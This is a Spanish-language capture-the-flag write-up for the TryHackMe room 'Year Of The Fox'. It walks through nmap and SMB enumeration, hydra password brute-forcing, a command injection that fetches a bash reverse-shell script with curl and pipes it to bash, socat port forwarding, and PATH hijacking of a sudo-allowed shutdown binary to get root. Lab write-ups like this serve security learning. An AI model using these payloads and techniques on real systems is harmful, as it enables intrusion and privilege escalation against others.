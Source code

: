 ```yaml
---
title : MQ|FOX|SMB|JAVA|RCE|SOCAT|PATH.HCK
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="/imgs/YerOfTheFox/YerOfTheFox0.png" style="border-radius: 150px; width: 169px" alt="Calamity log">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Difícil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/r/room/yotf" style="color: lightblue;">Year Of The Fox</a></p>
    </div>
</div>

<h2><font color="white"><center># Fox</center></font></h2>

* Empezamos lanzando un ping a la maquina para observar la trazabilidad de conexión y enumerar por su ttl el sistema operativo, que en este caso es una maquina Linux.

```java
# ping 10.10.92.139 -c1 -R
PING 10.10.92.139 (10.10.92.139) 56(124) bytes of data.
64 bytes from 10.10.92.139: icmp_seq=1 ttl=60 time=410 ms
RR: 	10.17.21.18
	10.16.107.119
	10.10.92.139
	10.10.92.139
	10.17.0.1
	10.17.21.18


--- 10.10.92.139 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 410.246/410.246/410.246/0.000 ms
```

* Ahora procedemos a enumerar puertos abiertos en el servidor.

```java
# Nmap 7.94SVN scan initiated Thu Dec 19 14:29:55 2024 as: nmap --min-rate 5000 -sS -Pn --open -p- -A -sCV -v -oN all_services 10.10.92.139
Nmap scan report for 10.10.92.139
Host is up (0.40s latency).
Not shown: 64446 closed tcp ports (reset), 1086 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 21.338 days (since Thu Nov 28 06:24:38 2024)
Network Distance: 5 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-12-19T19:30:34+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   YEAR-OF-THE-FOX<00>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<03>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<20>  Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   YEAROFTHEFOX<00>     Flags: <group><active>
|   YEAROFTHEFOX<1d>     Flags: <unique><active>
|_  YEAROFTHEFOX<1e>     Flags: <group><active>
| smb2-time: 
|   date: 2024-12-19T19:30:34
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   276.97 ms 10.17.0.1
2   ... 4
5   399.17 ms 10.10.92.139
```
* Procedemos a ver el puerto http 80 que corre el servidor, y vemos que nos muestra un login.

<img src="imgs/YerOfTheFox/YerOfTheFox1.png">

* Usamos smbmap para listar carpetas compartidas, y vemos que no tenemos acceso.

        smbclient -H MAQUINA_IP 
         
```java
# smbmap -H 10.10.92.139
[+] Guest session   	IP: 10.10.92.139:445	Name: 10.10.92.139                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	yotf                                              	NO ACCESS	Fox's Stuff -- keep out!
	IPC$                                              	NO ACCESS	IPC Service (year-of-the-fox server (Samba, Ubuntu))
```

* Procedemos a usar enum4linux para enumerar mas a detalle usuarios y información relevante.

        enum4linux MAQUINA_IP

```java
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\fox (Local User)
 S-1-22-1-1001 Unix User\rascal (Local User)
```

* Usamos hydra para hacer un ataque con estos usuarios encontrados.

            hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head

```java
 # hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.92.139 http-head
 Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, 
 hese *** ignore laws and ethics anyway).

 [80][http-head] host: 10.10.92.139   login: rascal   password: othello
 [STATUS] attack finished for 10.10.92.139 (valid pair found)
 1 of 1 target successfully completed, 1 valid password found
```

* Ahora con la credencial encontrada y el usuario vemos que hay en la pagina web.

<img src="imgs/YerOfTheFox/YerOfTheFox2.png">

* Usamos BurpSuite para controlar el trafico y hacer tests, vemos que usa cadenas java, en el apartado target, procedemos entonces a inyectar comandos 

        echo '/bin/bash -c "bash -i >& /dev/tcp/TU_IP/PUERTO 0>&1"' > data # Creamos el archivo data.

        sudo python3 -m http.server 80 # Creamos el servicio compartido.

        nc -nlvp PUERTO # Nos ponemos en escucha.
        
        sintaxis "\";curl 10.17.21.18/data | bash;\"" # Lo que haces es dentro de 2 comillas simples colocar el comando a ejecutar y se separan para que no entren en conflicto las multiples comillas. de esta manera hacer que java interprete el comando.

<img src="imgs/YerOfTheFox/YerOfTheFox3.png">


* Ganamos acceso al sistema después de lanzar la petición.

```java
www-data@year-of-the-fox:/dev/shm$ whoami
www-data
```

* Procedemos a enumerar puertos internos de la maquina y vemos que hay un puerto ssh corriendo de manera interna.
        
        netstat -nl

```java
www-data@year-of-the-fox:/dev/shm$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:netbios-ssn     0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 localhost:ssh           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:microsoft-ds    0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:netbios-ssn        [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:microsoft-ds       [::]:*                  LISTEN 
```


* Vemos el archivo de configuración /etc/ssh/sshd_config y vemos que el usuario fox esta en lista de admitidos.

```java
www-data@year-of-the-fox:/dev/shm$ cat /etc/ssh/sshd_config  | tail -n 1
AllowUsers fox
```

* Procedemos a transferirnos socat para hacer port for warding y hacer el puerto ssh correr de manera local.

        ./socat.bin tcp-listen:8888,reuseaddr,fork tcp:localhost:22


<img src="imgs/YerOfTheFox/YerOfTheFox4.png">

* Procedemos a hacer un ataque con hydra con el usuario fox.

```java
 # hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.92.139 -s 8888 ssh

 [DATA] attacking ssh://10.10.92.139:8888/
 [8888][ssh] host: 10.10.92.139   login: fox   password: 147852
 1 of 1 target successfully completed, 1 valid password found
```
 
* Nos conectamos por ssh de manera satisfactoria.

        ssh fox@maquina_ip -p 8888

<img src="imgs/YerOfTheFox/YerOfTheFox5.png">

* A la hora de correr el comando sudo -l vemos que no hay un path de ruta segura, lo que lo implica a poder manipular esta ruta a la hora de correr comando como usuario sudo, de esta forma poder elevar privilegios.

```java
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

* Vemos que el binario /usr/sbin/shutdown lo que hace es llamar a shutdown de forma externa al parecer.

<img src="imgs/YerOfTheFox/YerOfTheFox6.png">

* Procedemos entonces a copiar el binario /bin/bash y pegar como /tmp/shutdown

```java
fox@year-of-the-fox:/dev/shm$ cp /bin/bash /tmp/shutdown
fox@year-of-the-fox:/dev/shm$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/dev/shm$ sudo /usr/sbin/shutdown
root@year-of-the-fox:/dev/shm# whoami
root
```

* Y listo lo que hicimos fue alterar la ruta para que primero busque por /tmp/ el binario shutdown si lo encuentra entonces este lo ejecutara, de esta forma nos da la shell como root puesto que renombramos el binario para que fuera shutdown en ves de bash. 